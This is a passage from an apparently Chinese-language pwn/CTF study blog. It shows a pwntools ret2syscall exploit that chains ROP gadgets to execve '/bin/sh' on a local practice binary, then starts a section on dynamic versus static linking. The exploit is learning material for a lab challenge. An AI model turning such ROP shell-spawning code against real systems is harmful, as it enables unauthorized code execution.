 下面exp也是和上面相同思路

```plain
from pwn import *

io = process('./ret2syscall')

pop_eax_ret_addr=0x080bb196
pop_edx_addr=0x0806eb6a
pop_ecx_ebx_addr=0x0806eb91
int_80=0x08049421
bin_sh_addr=0x080be408

payload=b'A'*112+p32(pop_eax_ret_addr)+p32(0xb)+p32(pop_ecx_ebx_addr)+p32(0)+p32(bin_sh_addr)+p32(pop_edx_addr)+p32(0)+p32(int_80)

io.sendline(payload)
io.interactive()
```

这里大体了解了一下什么是栈平衡，之后再继续深入学习

## 动态链接过程

[![](assets/1701612384-27e41296db2ffbaa1e6a9a75945cffb6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629203339-2d0115c4-1679-1.png)

动态链接在装载的时候才为用户可见，静态链接在链接的时候就可以获取

这里分别gcc编译一下，看一下动态链接和静态链接的区别

```plain
gcc -fno-pie --static -o statest test.c
```
